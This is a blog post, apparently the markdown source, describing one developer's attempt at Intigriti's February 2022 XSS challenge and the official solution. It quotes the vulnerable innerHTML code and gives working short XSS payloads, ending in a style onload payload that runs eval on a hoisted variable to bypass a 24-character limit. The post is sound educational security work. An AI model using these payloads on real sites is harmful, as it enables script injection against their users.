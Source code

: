 ```yaml
---
title: "Intigriti 0222 XSS Challenge Attempt"
date: 2022-02-19T10:59:07-08:00
slug: intigriti-0222-challenge-attempt
description: My attempt to solve the intigriti 0222 xss challenge
tags:
  - javascript
  - xss
  - intigriti
showCover: false
---
```


## Intro

Intigriti is a hacking and bug bounty platform. They host a monthly XSS challenge. They are really fun and interesting for someone like me. 

TL;DR, I did not complete this month's challenge. 😭


See

* Challenge: https://challenge-0222.intigriti.io/challenge/xss.html
* Intigriti explanation: https://www.youtube.com/watch?v=P1bFG2qMxec


## My attempt

Even though I did not complete the challenge, I thought I would document what my thought process were and what I've learned. 

### Challenge 

The page has a form with a name input and a toggle. The instruction says the name cannot be empty nor can it be longer than 24 characters.
Let's try it. Enting the name will trigger a dialog popup with the name from the input field. 

 |
:-------------------------:|:-------------------------:
![](form.png)  |  ![](popup.png)


First thing I noticed is that the uri changed with `q` and `first` query parameters. It seems like I can manipulate these parameter to cause a XSS attack. Let's see how the parameters are appended. Looking at the source code we can see that it is set directly to the `window.location.search` property. The value is uri encoded.

```js
 window['main-form'].onsubmit = function(e) {
    e.preventDefault()
    var inputName = window['name-field'].value
    var isFirst = document.querySelector('input[type=radio]:checked').value
    if (!inputName.length) {
        showModal('Error!', "It's empty")
        return
    }

    if (inputName.length > 24) {
        showModal('Error!', "Length exceeds 24, keep it short!")
        return
    }

    window.location.search = "?q=" + encodeURIComponent(inputName) + '&first=' + isFirst
}
```

When the page is loaded, what happens to the query parameters?

```js
function showModal(title, content) {
    var titleDOM = document.querySelector('#main-modal h3')
    var contentDOM = document.querySelector('#main-modal p')
    titleDOM.innerHTML = title
    contentDOM.innerHTML = content
    window['main-modal'].classList.remove('hide')
}

// onsubmit code...

if (location.href.includes('q=')) {
    var uri = decodeURIComponent(location.href)
    var qs = uri.split('&first=')[0].split('?q=')[1]
    if (qs.length > 24) {
    showModal('Error!', "Length exceeds 24, keep it short!")
    } else {
    showModal('Welcome back!', qs)
    }
}
```

First thing I noticed is the `innerHTML` assignment. The `innerHTML` gets or sets the HTML content within the element. It is not uncommon to use `innerHTML` to set the content. This leaves vulnerability valunerbility to XSS attackers. Let's try it

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=<script>alert()</script>&first=yes
```

Nothing happens? Why? Because HTML5 specifies that a `<script>` tag inserted with `innerHTML` should not execute. [See MDN\' security consideration](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations).

But even in the section, it says it does not prevent all the attacks. The most common one is to use `img` with `onerror` field.

```
<img src=# onerror=alert(1) />
```

But this exceeds the character limit. 🤔. This is where I was stuck. I looked up some small xss methods and eventually found the `onload` property in `style` tag. 

```
<style onload=alert(1)>
```

{{<figure src="alert.png" alt="A screenshot of the alert(1)" width="50%" >}}

Yay, I got an alert popup. But this is not the objective of the challenge. I need to get `alert(document.domain)`. I spent a couple more days on this challenge and could not find the answers.I tried to see if there is a way maybe I can use a tiny url to load some bad script. But no way I can pass below the 24 characters limit.


## Answer

1 week passed by and Integriti posted their answers. I was really curious on how they by-passed the 24 characters limit. Go watch the video solution because they can explain way better than I did.

### Solution

The method they by pass is to use one of the tiny xss payload [from this github repo](https://github.com/terjanq/Tiny-XSS-Payloads).

Alright, the answer is to use `eval` to execute some js statements, which causes a XSS attack.

```
<style/onload=eval(name)>
```

But what variable do we control in the `showModal` function? Everything is either passed in as arguments, or the `name` in the `window` global object.

### The simple trick 

The key is `var` 🤦‍♀️. Once I saw the solution, it dawn upon me!! `var` variables hoist up in the scope. Since the scope is the window itself, it is accessible in any function!

See more about [\`var\` hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting#var_hoisting).


So we can access the `uri` variable defined in the `if` block.
```
<style/onload=eval(uri)>
```

### More

But this is not the using above payload, you will see an error. `Uncaught SyntaxError: expected expression, got end of script`. Because the uri content is not actually anything of JavaScript statement.

To complete the challenge, we need to get some valid js statement into the `eval` parameter. We can try terminating the previous statement with `;` and have valid syntax afterwards. 

`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=no&;alert(document.domain)`

This didn't work. But `eval` also works with multiline js statements. Let's try that. What is the new line character in encoded URI format: `%0A`.

`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=no&%0Aalert(document.domain)`

{{<figure src="complete.png" alt="XSS successful" width="50%" >}}

## Thoughts

I think this challenge is awesome. It combines a couple simple JavaScript quirkiness to create a surprising bypass. The variable hoisting and the `eval` keyword. 2 things I already knew but did not think of during the challenge. Looking forward to March's challenge.

## Things I learned

* `innerHTML` does not execute `script` tag
* [This awesome tiny xss payload repo](https://github.com/terjanq/Tiny-XSS-Payloads)
* `/` act as spaces in HTML tags. Very cool
